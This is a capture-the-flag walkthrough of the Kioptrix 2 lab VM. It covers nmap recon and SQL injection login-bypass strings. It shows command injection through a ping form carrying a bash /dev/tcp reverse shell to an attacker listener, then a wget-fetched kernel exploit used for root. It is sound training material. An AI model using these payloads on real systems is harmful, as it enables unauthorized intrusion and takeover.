 
Kioptrix 2 is the second web application hacking challenge created by Loneferret. If you need help setting up your VM see some of my troubleshooting tips in [my Kioptrix 1 Walkthrough]().

![](/images/kioptrix2/hacker_kid.gif)

### Step 1: Recon

After you get both your target VM (Kioptrix2) and your attacker VM (Kali/Parrot/etc.) spun up, the first step is going to be to identify your IP addresses. Start by running an **ifconfig** on your Kali Machine.
![](/images/kioptrix2/kioptrix2-1.png)


Next let's use **nmap** to run a ping sweep on the local network. This is a quieter scan that the typical 1000 port nmap scan and uses ICMP echo requests to identify live hosts on the network. We're typically going to use the first three octets of the IP address we discovered in the step above followed by 0/24. So for example:
![](/images/kioptrix2/kioptrix2-2.png)

We can see a few hosts pop up on this scan. Generally you can eliminate the highest and lowest IPs since they're usually virtualized network appliances. The other two IPs end in .133 (which we know is the attacking machine) and .128 (which is most likely our target). To test this theory, plug the target IP address into a browser on your attacker machine. You should see a simple login page.
![](/images/kioptrix2/kioptrix2-4.png)

Great! Now that we have identified our attacker and target IP addresses, lets start enumerating the open ports and running services on the target VM. I like to start with an nmap "Syn Scan" (-sS) which sends syn requests (Step one in the TCP three way handshake) to identify open ports.
![](/images/kioptrix2/kioptrix2-3.png)

Another helpful nmap scan to run is the "Version scan" (-sV), which will grab banners of running services to find out their versions. It's also has the benefit of returning very clean looking results, cleaner than the intensive "advanced scan" (-A).

![](/images/kioptrix2/kioptrix2-12.png)


### Step 2: Poke the Bear

Now that we know a little bit more about our target, let's go back to inspecting the web page with the login form.
We know that the target has a MySQL port open. Why don't we try some classic SQL injection authentication bypasses?

My two favorite cheat sheets for SQL Authentication bypass are: 
- [Pentest Lab Blog](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)
- [Netsparker Blog](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)

If you've never tried this before, take a minute to look over the two links above and try a few methods yourself.

There are several methods that will work here:
`admin' 1=1 -- \`

`admin' 1=1 #`

`admin' #`


### Step 3: Get in the Bear's House

Now that we've bypassed the login screen we're at a page with a tool that accepts user input and runs a ping scan.

![](/images/Kioptrix2/kiotrix2-5.png)


The concept behind command injection is similar to sqlinjection. Instead of passing some input and using a comment character to stop the rest of sql query, we're going to try some special characters used to string together commands.
; will allow you to escape the underlying program and pass commands
You can even string together multiple multiple commands with &&



Let's see if we can get a bash reverse shell.

For a great reverse shell cheat sheet check out the [Pentest Monkey Blog](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
Start by setting up a netcat listener on your attacker machine. 
` nc -nvlp 4444`

And then pass the reverse shell script into the ping tool.

`; bash -i >& /dev/tcp/192.168.65.133/4444 0>&1`

![](/images/kioptrix2/kioptrix2-6.png)
Boom! We've got our low priv shell.

### Step 4: Own the Bear
Next we begin enumerating more about the machine to plan our privesc approach.
I usually start by gathering information about the OS version, kernel version, and users.
![](/images/kioptrix2/kioptrix2-7.png)

CentOS 4.5 final has the following exploit:
[https://www.exploit-db.com/exploits/9542/]

Since I have my vulnerable VM set up in Host Only mode to segregate it from the internet, I spool up a simple python web sever on my attacker machine with the exploit file in it.

![](/images/kioptrix2/kioptrix2-8.png)
I then use the wget command on my target machine to download the exploit from my attacker.
![](/images/kioptrix2/kioptrix2-9.png)

There are no special insructions in this exploit for compiling the code, so we use the most basic gcc compile.
`**gcc kioptrix2.c -o kioptrix2**`

Then all that's left to do is to run the exploit on the target
![](/images/kioptrix2/kioptrix2-10.png)

Root shell!! 

Thanks for reading. Check back next week for a writeup of Kioptrix 3.







